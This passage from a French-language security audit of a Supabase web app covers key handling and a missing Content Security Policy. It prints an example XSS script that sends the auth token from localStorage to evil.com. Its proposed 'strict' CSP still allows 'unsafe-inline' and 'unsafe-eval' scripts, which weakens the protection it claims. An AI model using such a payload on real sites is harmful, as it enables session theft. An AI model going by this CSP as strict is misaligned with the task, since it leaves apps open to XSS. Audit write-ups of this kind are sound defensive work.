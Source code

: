 **Solution** :
```typescript
// ✅ 1. Les clés ANON sont normales pour Supabase (protégées par RLS)
// Mais JAMAIS de service_role_key côté frontend

// ✅ 2. Vérifier que RLS est TOUJOURS activé
ALTER TABLE profiles ENABLE ROW LEVEL SECURITY;

// ✅ 3. Logs et monitoring
// Détecter les appels API suspects (volume, patterns anormaux)

// ✅ 4. Rate limiting côté Supabase
// Configurer dans Supabase Dashboard → Settings → API
```

---

### 2. ❌ CRITIQUE : Pas de Content Security Policy (CSP)

**Problème** : `index.html` n'a AUCUNE protection CSP

**Vecteur d'attaque - XSS** :
```javascript
// Si un attaquant injecte du code (via input non sanitisé)
<script>
  // Vol du JWT token
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: localStorage.getItem('supabase.auth.token')
  });
</script>
```

**Impact** : 🔴 CRITIQUE
- Vol de sessions utilisateurs
- Exécution de code malveillant
- Redirection vers sites de phishing
- Keylogging

**Solution** :

```html
<!-- index.html -->
<!doctype html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />

    <!-- ✅ AJOUTER CSP STRICT -->
    <meta http-equiv="Content-Security-Policy" content="
      default-src 'self';
      script-src 'self' 'unsafe-inline' 'unsafe-eval';
      style-src 'self' 'unsafe-inline';
      img-src 'self' data: https: blob:;
      font-src 'self' data:;
      connect-src 'self' https://*.supabase.co https://api.trophenix.com;
      frame-ancestors 'none';
      base-uri 'self';
      form-action 'self';
    ">

    <!-- ✅ Protection XSS -->
    <meta http-equiv="X-Content-Type-Options" content="nosniff">
    <meta http-equiv="X-Frame-Options" content="DENY">
    <meta http-equiv="X-XSS-Protection" content="1; mode=block">
    <meta name="referrer" content="strict-origin-when-cross-origin">

```